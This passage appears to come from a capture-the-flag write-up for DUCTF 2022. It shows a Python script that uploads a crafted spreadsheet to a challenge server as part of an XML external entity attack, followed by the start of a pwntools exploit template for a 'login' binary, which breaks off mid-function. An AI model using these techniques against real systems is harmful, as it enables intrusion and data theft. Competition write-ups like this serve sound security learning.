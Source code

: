 send:

```python
import requests

URL = "https://web-dyslexxec-773a3cb4c483.2022.ductf.dev"

req = requests.post(
    url=f"{URL}/metadata",
    files={
        "file": open("fizzbuzz/fizzbuzz.xlsm", "rb")
    },
    # proxies={"https":"http://localhost:8080"},
    verify=False
)
print(req.text)
```

![](Pasted%20image%2020220925193444.png)

Reference:
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

# login

```python
from pwn import *
from struct import pack
from Crypto.Util.number import bytes_to_long as btl, long_to_bytes as ltb
import sys


BINARY = "login"
context.binary = exe = ELF(f"./{BINARY}", checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
```